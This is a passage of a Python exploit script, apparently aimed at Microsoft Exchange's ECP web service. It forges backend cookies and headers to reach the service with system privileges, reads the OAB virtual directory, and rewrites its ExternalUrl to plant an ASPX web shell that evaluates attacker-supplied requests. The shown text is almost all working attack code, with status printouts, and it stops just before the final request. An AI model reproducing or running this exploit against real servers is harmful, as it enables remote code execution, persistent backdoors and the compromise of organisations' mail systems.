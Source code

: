 ```python
    print("\033[32m[o] Session_id: {}\033[0m".format(session_id))
    print("\033[32m[o] Canary    : {}\033[0m".format(canary))

    extra_cookies = [
        'ASP.NET_SessionId=' + session_id,
        'msExchEcpCanary=' + canary
    ]
    vuln_url = '/ecp/DDI/DDIService.svc/GetObject'
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data='', verify=False, allow_redirects=False)
    identity = response.json()['d']['Output'][0]['Identity']
    print("\033[32m[o] OAB Name: {}\033[0m".format(identity['DisplayName']))
    print("\033[32m[o] OAB ID: {}\033[0m".format(identity['RawIdentity']))

    FILE_PATH = 'C:\\inetpub\\wwwroot\\aspnet_client\\PeiQi.aspx'
    FILE_DATA = '<script language="JScript" runat="server">function Page_Load(){eval(Request["PeiQi"],"unsafe");}</script>'

    vuln_url = '/ecp/DDI/DDIService.svc/SetObject'
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'ExternalUrl': 'http://f/' + FILE_DATA
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
```